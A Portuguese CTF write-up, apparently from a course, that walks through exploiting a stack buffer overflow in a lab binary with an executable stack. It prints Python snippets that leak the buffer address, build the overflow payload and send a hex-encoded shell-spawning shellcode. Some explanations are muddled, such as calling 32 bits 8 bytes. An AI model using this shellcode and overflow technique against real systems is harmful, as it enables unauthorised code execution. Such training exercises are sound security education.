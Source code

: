 # CTF - WEEK 8[](url)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que é será que se pode fazer?

1. Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/1.bufferAddress.png)

2. Ao usar o ficheiro "exploit-example.py" de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana.

3. Explicação de código (do ficheiro "exploit-example.py"):

- 3.1. Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

- 3.2. Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

- 3.3. Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

- 3.4. Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

- 3.5. Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).
